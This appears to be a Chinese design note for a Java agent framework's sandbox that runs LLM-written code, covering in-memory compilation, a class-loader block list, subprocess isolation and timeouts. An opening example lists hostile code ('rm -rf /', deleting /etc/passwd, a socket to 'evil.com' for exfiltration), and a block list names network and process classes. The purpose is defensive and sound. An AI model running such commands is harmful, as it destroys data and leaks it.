





# Stage 4 沙箱系统：概念与设计

> 时间：2026-08-14 ~ 2026-08-16
> 对应阶段：Stage 4 - 沙箱与隔离执行
> 目标：安全执行 LLM 生成的代码，限制文件/网络/进程访问

---

## 一、解决什么问题

### 场景

Stage 3.5 实现了 Agent 自进化：模型可以在对话中加载/卸载插件。但插件是**预编译的 Java 类**，模型只能从已有插件中选择。

更进一步的自进化：**模型自己写代码**。但如果模型写了：

```java
Runtime.getRuntime().exec("rm -rf /");        // 格式化硬盘
new File("/etc/passwd").delete();             // 删系统文件
new Socket("evil.com", 80);                   // 外传数据
while (true) {}                                // 死循环卡死 Agent
```

主进程就完蛋了。

### 沙箱的定义

**沙箱 = 一个受限的执行环境，代码在里面跑，但碰不到外面的世界。**

四种典型限制：

| 限制   | 例子             |
|------|----------------|
| 文件隔离 | 不能读写沙箱目录之外的文件  |
| 网络隔离 | 不能访问非白名单域名     |
| 进程隔离 | 不能启动子进程、执行系统命令 |
| 资源限制 | 超时 kill、内存上限   |

---

## 二、前置概念

### 2.1 隔离的三个层次

```
ClassLoader 隔离（进程内）
  -> 代码在同一个 JVM 里跑，但类加载被拦截
  -> 快（无 JVM 启动），但不是安全边界（反射可逃逸）

进程隔离（OS 级）
  -> 代码在独立子进程里跑，超时 kill
  -> 强（进程边界），但慢（JVM 启动 1-2 秒）

容器/WASM 隔离（后续阶段）
  -> Docker namespace / WASM 虚拟机
  -> 最强，复杂度最高
```

### 2.2 ClassLoader（类加载器）

Java 每个类都由某个 ClassLoader 加载。类的"身份"= 类名 + 定义它的 ClassLoader。

**双亲委派模型**：收到类加载请求时，先委托父加载器，父加载器找不到才自己加载。

```
Bootstrap ClassLoader（加载 java.lang.* 等核心类）
  ↑ 委派
Platform ClassLoader（加载 JDK 内部模块）
  ↑ 委派
Application ClassLoader（加载你的应用类）
  ↑ 委派
SandboxClassLoader（我们自定义的，加载 LLM 代码）
```

**沙箱利用点**：重写 `loadClass`，在委托之前检查类名是否在拦截列表，是则抛 `SecurityException`。LLM 代码由
SandboxClassLoader 加载，它引用的所有类（如 `java.lang.Runtime`）也要经过 SandboxClassLoader，因此被拦截。

**局限**：ClassLoader 隔离不是安全边界。攻击者可以用反射、`Unsafe`、JNI 逃逸。但对 LLM 生成的代码（非对抗性）足够了。

### 2.3 Java Compiler API（javax.tools）

JDK 内置的编译器 API，可以在**运行时**编译 Java 源码，不需要调 `javac` 命令：

```java
JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
// 源码来自内存（SimpleJavaFileObject）
// 编译产物写入内存（ForwardingJavaFileManager）
// 全程零磁盘 IO
```

关键点：`JavaCompiler.getTask()` 接受自定义的 `JavaFileManager`，我们重写 `getJavaFileForOutput`
让编译产物（字节码）写进 `Map<String, byte[]>` 而不是 `.class` 文件。

### 2.4 受检异常的编译期拦截

实测发现一个有趣现象：拦截 `java.io.File` 后，代码里 `Runtime.getRuntime().exec("ls")`（声明抛 `IOException`）在**编译阶段**
就失败了。因为编译器需要解析 `IOException`（在 `java.io` 拦截列表里），无法解析受检异常 -> 编译失败。

**编译期拦截比运行期拦截更早、更彻底** -- 危险代码根本没机会生成字节码。

### 2.5 超时控制的两种方式

```
ClassLoaderSandbox（进程内）：
  ExecutorService.submit(任务) -> Future.get(timeout)
  -> 超时 future.cancel(true) 中断线程

ProcessSandbox（子进程）：
  process.waitFor(timeout)
  -> 超时 process.destroyForcibly() 强杀进程
```

进程内超时只能"中断"线程（死循环代码可能不响应中断，线程会泄漏但标记为 daemon 不阻止 JVM 退出）；进程超时能真正强杀。

---

## 三、核心类介绍

### 3.1 总览（8 个类，3 层）

```
接口层（定义契约）
├── Sandbox            沙箱接口：execute(className, code) -> SandboxResult
├── SandboxSpec        配置：超时/工作目录/环境变量/拦截列表
└── SandboxResult      结果 record

实现层（两种隔离方案）
├── ClassLoaderSandbox  方案2：进程内沙箱
│   ├── InMemoryCompiler     内存编译器
│   └── SandboxClassLoader   拦截危险类的类加载器
└── ProcessSandbox     方案1：子进程沙箱

工具层（接入 Agent）
└── SandboxTool        把沙箱包装成 Tool，模型可调用
```

### 3.2 Sandbox（接口）

```java
public interface Sandbox {
    SandboxResult execute(String className, String code);
    SandboxResult execute(String className, String code, SandboxSpec spec);
}
```

约定：LLM 代码必须定义 `public static String run()` 方法，沙箱找到并调用它，返回值即执行结果。

### 3.3 SandboxSpec（配置，Builder 模式）

| 字段               | 类型       | 默认值    | 说明          |
|------------------|----------|--------|-------------|
| timeout          | Duration | 10 秒   | 执行超时        |
| workingDirectory | String   | 系统临时目录 | 进程沙箱的工作目录   |
| environment      | Map      | 空      | 传给子进程的环境变量  |
| memoryLimitBytes | long     | 256MB  | 内存上限（进程沙箱用） |
| blockedPackages  | List     | 见下     | 拦截的包前缀      |
| blockedClasses   | List     | 空      | 拦截的具体类名     |

默认拦截列表（`defaultBlockedPackages()`）：

```java
"java.io.File"            // 文件系统
"java.io.FileInputStream"
"java.io.FileOutputStream"
"java.nio.file"           // NIO 文件
"java.lang.Runtime"       // 执行系统命令
"java.lang.ProcessBuilder"
"java.lang.ProcessHandle"
"java.lang.reflect"       // 反射逃逸
"java.net"                // 网络
"java.lang.ClassLoader"   // 自定义类加载器
"java.lang.Thread"        // 线程控制
"jdk.tools"               // 编译器工具
```

### 3.4 SandboxResult（结果 record）

```java
public record SandboxResult(
    boolean success,   // 是否成功
    String stdout,     // 捕获的标准输出
    String stderr,     // 捕获的标准错误
    int exitCode,      // 进程退出码（ClassLoader 沙箱为 -1）
    boolean timedOut,  // 是否超时
    String error       // 错误信息
) {}
```

4 个工厂方法：`success()` / `error()` / `timeout()` / `blocked()`。

### 3.5 InMemoryCompiler（内存编译器）

```
输入：className + 源码字符串
输出：Map<String, byte[]>（类名 -> 字节码）

内部结构：
├── InMemoryJavaSource   源码的内存表示（SimpleJavaFileObject）
├── InMemoryFileManager  编译产物的内存收集器（ForwardingJavaFileManager）
│   └── InMemoryClassFile  单个 .class 的内存表示，openOutputStream()
│                          返回的流在 close 时把字节写入 Map
└── CompilationException 编译失败异常（含行号错误信息）
```

关键机制：编译器写 `.class` 内容时调 `openOutputStream()`，我们返回一个 `ByteArrayOutputStream`，它的 `close()` 被重写为"
把累积的字节放进 Map"。

### 3.6 SandboxClassLoader（沙箱类加载器）

```java
public class SandboxClassLoader extends ClassLoader {
    // 构造：父加载器 + 编译产物 + 拦截列表

    @Override
    protected Class<?> loadClass(String name, boolean resolve) {
        // 1. 检查拦截列表 -> 是则抛 SecurityException
        // 2. findLoadedClass -> 已加载直接返回
        // 3. 从编译产物 Map 找 -> 找到则 defineClass
        // 4. 委托父加载器（标准库类）
    }
}
```

**拦截检查在最前面**，优先于已加载检查和委派。这保证即使 `Runtime` 已被应用加载过，LLM 代码引用它时依然被拦。

### 3.7 ClassLoaderSandbox（方案2 编排器）

把编译、加载、执行、超时、输出捕获串起来：

```
execute(className, code, spec)
  |
  ├── 1. InMemoryCompiler.compile()     失败 -> 返回编译错误
  |
  ├── 2. new SandboxClassLoader(...)    创建沙箱加载器
  |
  ├── 3. 重定向 System.out/err          捕获 stdout
  |
  ├── 4. ExecutorService.submit(() -> {
  |       sandboxLoader.loadClass(className)   // 触发拦截
  |       clazz.getMethod("run").invoke(null)  // 反射调用
  |   })
  |
  ├── 5. future.get(timeout)            超时 -> cancel + 返回 timeout 结果
  |
  └── 6. finally：恢复 System.out/err，shutdown 执行器
```

异常映射：

- `SecurityException` -> `SandboxResult.blocked()`
- `InvocationTargetException` -> 解包 cause，`SandboxResult.error()`
- `TimeoutException` -> `SandboxResult.timeout()`

### 3.8 ProcessSandbox（方案1）

```
execute(className, code, spec)
  |
  ├── 1. 创建沙箱临时目录（sandbox-XXXX）
  |
  ├── 2. 源码写入 目录/ClassName.java
  |
  ├── 3. 子进程跑 javac 编译（带超时）
  |       失败 -> 返回编译错误
  |
  ├── 4. 子进程跑 java -cp 目录 ClassName（带超时）
  |       ├── stdout/stderr 用独立线程读取（防管道死锁）
  |       ├── waitFor(timeout) 超时 -> destroyForcibly()
  |       └── 退出码非 0 -> 返回错误
  |
  └── 5. finally：清理临时目录（倒序删除）
```

### 3.9 SandboxTool（接入 Agent）

标准 `Tool` 实现，模型可调用：

```
参数：{class_name: "Generated", code: "public class Generated { ... }"}
返回：{success: true, stdout: "...", timedOut: false}
```

组装方式：

```java
Sandbox sandbox = new ClassLoaderSandbox();
registry.register(new SandboxTool(sandbox));
// 模型现在可以调 sandbox_execute 工具执行自己写的代码
```

---

## 四、类与概念的关系

| 概念        | 对应类                                     | 关系说明                   |
|-----------|-----------------------------------------|------------------------|
| 沙箱        | `Sandbox`                               | 接口即概念，定义"安全执行"契约       |
| 隔离策略      | `ClassLoaderSandbox` / `ProcessSandbox` | 同一接口的两个策略实现（策略模式）      |
| 安全策略      | `SandboxSpec.blockedPackages`           | 声明式拦截列表，可配置            |
| 类加载隔离     | `SandboxClassLoader`                    | 拦截的执行者，重写 loadClass    |
| 运行时编译     | `InMemoryCompiler`                      | 让"LLM 写代码 -> 执行"零磁盘 IO |
| 资源限制      | `SandboxSpec.timeout` + Future/waitFor  | 超时是唯一真正落地的资源限制         |
| 执行结果      | `SandboxResult`                         | 屏蔽两种方案的差异，统一返回格式       |
| Agent 接入点 | `SandboxTool`                           | 沙箱能力暴露为模型可调用的工具        |
| 配置构建      | `SandboxSpec.Builder`                   | Builder 模式处理多可选字段      |

设计模式清单：

| 模式      | 用在哪                                      |
|---------|------------------------------------------|
| 策略模式    | Sandbox 接口 + 两个实现，可替换隔离策略                |
| Builder | SandboxSpec 多字段可选配置                      |
| 模板方法雏形  | 两个实现都遵循 compile -> execute -> capture 流程 |
| 适配器     | SandboxTool 把 Sandbox 适配成 Tool           |

---

## 五、架构图

### 5.1 整体架构



### 5.2 ClassLoaderSandbox 内部流程



### 5.3 SandboxClassLoader 拦截机制



### 5.4 两种方案对比



---

## 六、数据流向

### 6.1 一次完整执行的数据变化

以"计算 1 到 100 的和"为例：

```
输入（String）
  "public class Generated {
       public static String run() {
           int sum = 0;
           for (int i = 1; i <= 100; i++) sum += i;
           return \"Sum 1-100 = \" + sum;
       }
   }"
    |
    | InMemoryCompiler.compile("Generated", code)
    v
编译产物（Map<String, byte[]>）
  { "Generated" -> 0xCAFEBABE...（字节码，约 800 字节） }
    |
    | new SandboxClassLoader(parent, classBytes, blockedList)
    v
类加载（Class 对象）
  SandboxClassLoader.loadClass("Generated")
  -> defineClass("Generated", bytecode)
  -> Class<Generated>（由沙箱加载器定义）
    |
    | clazz.getMethod("run").invoke(null)
    v
执行（同 JVM，沙箱线程）
  sum 计算 1+2+...+100 = 5050
  -> 返回 "Sum 1-100 = 5050"
    |
    | 包装
    v
输出（SandboxResult）
  { success=true, stdout="Sum 1-100 = 5050",
    stderr="", exitCode=0, timedOut=false, error=null }
    |
    | SandboxTool 转 JSON
    v
模型看到的工具结果（String）
  '{"success":true,"stdout":"Sum 1-100 = 5050","timedOut":false}'
    |
    | 加入 AgentState.messages
    v
下一轮循环，模型基于结果生成回答
```

### 6.2 拦截场景的数据变化

代码尝试读文件：

```
输入代码引用 java.io.File
    |
    | 编译阶段
    v
编译器解析 File 类 ->
InMemoryCompiler 内部 loadClass("java.io.File")
（注意：编译器也走沙箱类加载路径，受检异常解析失败）
    |
    | 或运行阶段
    v
JVM 解析 Generated 类的常量池 ->
发现引用 java.io.File ->
调 SandboxClassLoader.loadClass("java.io.File")
    |
    | isBlocked("java.io.File") == true（匹配 "java.io.File" 前缀）
    v
抛 SecurityException("Blocked: access to java.io.File ...")
    |
    | ClassLoaderSandbox 捕获
    v
SandboxResult { success=false,
  error="Blocked: access to java.io.File is not allowed in sandbox" }
```

### 6.3 超时场景的数据变化

```
输入代码：while(true) {}
    |
    | 编译成功 -> 加载成功 -> 提交执行
    v
沙箱线程死循环，占用 CPU
    |
    | 主线程 future.get(2000ms)
    v
2 秒后 TimeoutException
    |
    | future.cancel(true)（中断信号，死循环可能不响应，线程泄漏为 daemon）
    v
SandboxResult { success=false, timedOut=true,
  error="Execution timed out", stdout=已捕获的部分输出 }
```

---

## 七、设计决策记录

### 为什么做两个实现而不是一个？

两种方案互补：ClassLoader 版快但隔离弱（适合 LLM 代码快速迭代），Process 版慢但隔离强（适合完全不可信代码）。接口统一（`Sandbox`
），调用方按需选择，也验证了策略模式。

### 为什么约定 `public static String run()`？

- `static`：不需要实例化（LLM 代码可能没有无参构造函数）
- `String` 返回值：工具结果必须是文本（Tool.execute 的返回类型）
- 固定方法名 `run`：沙箱知道反射调用哪个方法，不需要 LLM 传方法名

### 为什么拦截 java.lang.reflect 和 ClassLoader？

反射可以绕过拦截：`Class.forName("java.io.File")`
默认用调用者的类加载器（SandboxClassLoader），会走拦截检查；但 `ClassLoader.getSystemClassLoader()`
拿到系统加载器后 `loadClass` 就绕过了。拦截这两个包堵住主要逃逸路径。

### 为什么 stdout 捕获用 System.setOut 重定向？

进程内沙箱和主进程共享
stdout，只能重定向。局限：全局静态替换在并发场景会互相干扰（两个沙箱同时跑会串输出）。生产方案应该用自定义 `PrintStream`
按线程隔离。这是已知的技术债，单线程场景够用。

### SecurityManager 哪去了？

Java 传统方案是 `SecurityManager`，但它在 **Java 17 已废弃**（JEP 411），没有替代品。所以只能用 ClassLoader 拦截 +
进程隔离的组合。这也是为什么 dsh 用 VM 沙箱（isolated-vm）而不是 Java 原生机制。

---

## 八、验证对照

| 学习规划验收项       | 状态 | 实现                                              |
|---------------|----|-------------------------------------------------|
| 沙箱中执行用户代码     | ✅  | ClassLoaderSandbox + ProcessSandbox             |
| 代码无法访问沙箱外文件系统 | ✅  | 拦截 java.io.File / nio.file（编译期或运行期）             |
| 代码无法访问未授权网络   | ✅  | 拦截 java.net                                     |
| 超时自动终止        | ✅  | Future.get(timeout) / waitFor + destroyForcibly |
| 沙箱可复用         | ⬜  | 未做池化（每次新建，后续加）                                  |
| 内存配额          | ⬜  | SandboxSpec 有字段但未真正生效（进程沙箱可用 -Xmx）              |

---

## 九、文件清单

```
agent-sandbox/src/main/java/io/github/qwzhang01/agent/sandbox/
├── Sandbox.java                        # 沙箱接口
├── SandboxSpec.java                    # 配置（Builder + 默认拦截列表）
├── SandboxResult.java                  # 结果 record
├── classloader/
│   ├── InMemoryCompiler.java           # 内存编译器
│   ├── SandboxClassLoader.java         # 拦截类加载器
│   └── ClassLoaderSandbox.java         # 方案2 编排器
├── process/
│   └── ProcessSandbox.java             # 方案1 子进程沙箱
└── tools/
    └── SandboxTool.java                # Tool 包装

agent-sandbox/src/test/java/.../classloader/
└── ClassLoaderSandboxTest.java         # 11 个测试

examples/src/main/java/.../examples/
└── SandboxExample.java                 # 演示 5 种场景
```

---

## 十、与整体框架的集成



完整链路：**用户提问 -> 模型写代码并调 sandbox_execute -> 沙箱编译/加载/拦截/执行/超时控制 -> 结果返回模型 -> 模型给用户答案
**。

这是 Coding Agent 的核心能力：模型写代码，沙箱保证安全。

---

## 十一、后续路线

```
Stage 4（本阶段）
  ClassLoader + 进程隔离，执行预定义入口方法
     ↓
补充项（按需）
  沙箱池化复用
  内存配额真正生效（-Xmx）
  Docker 隔离（第三个 Sandbox 实现）
  WASM 隔离（Chicory，第四个实现）
     ↓
Stage 5（Workflow Graph）
  多步骤编排，沙箱作为其中一种执行节点
     ↓
与 Stage 3.5 闭环
  模型写代码 -> sandbox_execute 验证 -> 验证通过后
  动态定义为新插件（对标 dsh cordis_define）
```

---

## 十二、面试表达

> 我们的 Agent 框架在 Stage 4 实现了双层沙箱来安全执行 LLM 生成的 Java 代码。快路径用 Java Compiler API 在内存中编译（零磁盘
> IO），再用自定义 ClassLoader 加载字节码 -- 它重写了
> loadClass，在双亲委派之前检查拦截列表，java.io、java.net、Runtime、ProcessBuilder、reflect 全部拦掉，实测危险代码在编译期或运行期都会被
> SecurityException 阻断。慢路径用 ProcessBuilder 起 javac/java 子进程，靠 waitFor 超时加 destroyForcibly
> 强杀实现真正的进程级隔离。两条路径统一实现 Sandbox 接口，再通过 SandboxTool 适配成模型可调用的工具 -- 模型写代码、调
> sandbox_execute、拿结果继续推理，这就是 Coding Agent 的最小闭环。局限也很清楚：ClassLoader 隔离不是安全边界（SecurityManager
> 在 17 已废弃，JEP 411），反射和 Unsafe 可以逃逸，所以对抗性场景必须走进程或容器隔离。
